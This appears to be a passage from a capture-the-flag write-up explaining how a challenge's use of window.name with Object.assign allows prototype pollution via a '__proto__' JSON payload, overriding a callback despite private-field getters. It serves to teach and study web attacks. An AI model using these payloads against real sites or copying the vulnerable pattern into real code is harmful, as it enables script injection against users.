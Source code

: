  * `<iframe name="*attacker-controlled*" src="//task"></iframe>` (blocked via `X-Frame-Options: DENY`)
 * `window.open('//task', '*attacker-controlled*')` (must be triggered by a direct user action, otherwise it will be blocked)
 * Open a page controlled by the attacker, set `window.name`, redirect to the task
 
 Under these conditions, only the last option will work.

### Prototype Pollution

Using `window.name`, attacker can override the `theme` value in the `user` object.

```js
debug = JSON.parse(window.name);
...
Object.assign(user, debug);
```

Example:
```js
user = {"theme":{"cb":"test"}}
Object.assign(user, JSON.parse('{"theme":{"cb":"alert"}}'))

user.theme.cb == "alert"
```

To protect against this, the class `User` uses private fields with getters only.
```js
class User {
    #theme;
    constructor(theme) {
        this.#theme = theme
    }

    get theme() {
        return this.#theme
    }
}

user = new User({"cb":"test"})
Object.assign(user, JSON.parse('{"theme":{"cb":"alert"}}'))

// Uncaught TypeError: Cannot set property theme of #<User> which has only a getter
```

But this can be exploited using the Prototype Pollution
```js
Object.assign(user, JSON.parse('{"__proto__":{"theme":{"cb":"alert"}}}'))

user.theme.cb == "alert"
```

In the fixed version of the task, attacker cannot directly overwrite the callback of main object and can only affect `user.toString()`.

```js
debug = JSON.parse(window.name);
...
user.debug = new Debug(user.username);
Object.assign(user.debug, debug);
...
if(user.debug.debugUser){
  user.toString = () => user.debug.toString();
}
```
